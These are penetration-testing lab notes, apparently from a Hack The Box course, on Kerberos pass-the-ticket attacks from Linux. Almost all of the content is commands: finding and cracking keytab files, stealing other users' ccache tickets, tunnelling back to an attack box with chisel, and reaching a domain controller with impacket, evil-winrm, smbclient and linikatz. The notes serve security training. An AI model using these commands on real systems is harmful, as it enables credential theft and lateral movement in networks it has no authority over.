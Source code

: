 ```yaml
---
title: Pass the Ticket Linux
category: Post-Exploitation
tags: [ptt, credential, hunting, tgt, ticket, kerberos, keytab, ccache]
tools: ['limikatz', 'chisel', 'evil-winrm']
---
```


# Pass the Ticket Linux

- [Keytab](https://kb.iu.edu/d/aumh) files
- [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)

#### Linux auth via port forward

```bash
ssh david@inlanefreight.htb@10.129.204.23 -p 2222

# Check domain/kerberos information
realm list

# If unavailable check for sssd or winbind
ps -ef | grep -i "winbind\|sssd"
```

## Finding KeyTab files

- [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) allows interaction with Kerberos
- Ticket is represented as a keytab file located by default at `/etc/krb5.keytab`

```bash
# Using find - Mus have r/w priv
find / -name *keytab* -ls 2>/dev/null

# Check crontab for kinit if keys have been renamed
crontab -l
```

### Finding ccache files

- credential cache or [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)
- Remain valid while the users session lasts
- File path is the `KRB5CCNAME` environment variable
- As root or priv, impersonate a user using their `ccache` file while it is still valid

```bash
# Check file path
env | grep -i krb5
```

### Abusing KeyTab files - Shared folders

Impersonate a user using `kinit`.

```bash
# Confirm ticket being used
klist

# Impersate user Carlos
klist -k -t /opt/specialfiles/carlos.keytab

# Connect to smb share as Carlos
smbclient //dc01/carlos -k -c ls
```

> To keep the ticket from the current session, before importing the  keytab, save a copy of the ccache file present in the environment  variable `KRB5CCNAME`.

---

## KeyTab Extract - Secrets

Abuse Kerberos and extract secrets from keytab file.

### Extracting KeyTab hashes with [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

- use John/Hashcat or [CrackStation](https://crackstation.net/)

The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

```bash
# Get hashes
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

# Crack with your flavour and login
su - carlos@inlanefreight.htb

# Attempt lat movement
klists
contab -l

# Find .kt file and crack
python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt

```

- Check crontab and klists again to attempt lateral movement; srv accouts or user with sudo priv

> With the NTLM hash, we can perform a Pass the Hash attack. With the  AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt  to crack the hashes to obtain the plaintext password.

## Abusing KeyTab ccache

Once we have read permission to the ccache in `/tmp` with sudo permission we can abuse

```bash
# Privesc to root
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
sudo -l
sudo su; whoami

#

# Looking for ccache files
ls -la /tmp

# Identifying group membership and look for admins
id julio@inlanefreight.htb
```

### Importing the ccache file into our current session

To use a ccache file, copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

```bash
# Check and export
klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133

# Verify and ls machine
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

> klist displays the ticket information. We must consider the values  "valid starting" and "expires." If the expiration date has passed, the  ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

---

## Using Linux attack tools with Kerberos

To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

### [Chisel](https://github.com/jpillora/chisel)

#### Host file and Proxychains

```bash
cat /etc/hosts

# Host addresses
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to attack box

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse
```

#### Connect to RDP and execute chisel

```bash
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

```cmd
# Client IP is attack box
chisel.exe client 10.10.14.33:8080 R:socks
```

Transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file. See 02_Access/File-Transfers.

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use the Kerberos ticket, specify our target machine name (not the IP address) and use the option `-k`. If prompted for a password, include the option `-no-pass`.

```bash
proxychains impacket-wmiexec dc01 -k
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

Install the Kerberos package used for network authentication `krb5-user`. Will prompt for domain and computer name. If installed change the configuration file `/etc/krb5.conf`.

```bash
# Install package
sudo apt-get install krb5-user -y

# Launch
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

### [Linikatz](https://github.com/CiscoCXSecurity/linikatz) - Move lateraly

> Bringing Mimikatz et al to UNIX". In addition to the main linikatz.sh  script, this also includes auditd policies, John the Ripper rules,  Metasploit post-exploitation modules and fuzzers. 

```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
./linikatz.sh

# Find compute keytab file with access to other systems
./linikatz

# Initialize
kinit LINUX01$ -k -t /path/to/keytab

# Get whatever
smbclient //dc01/linux01 -k -c 'get /flag.txt /root/flag.txt'
```



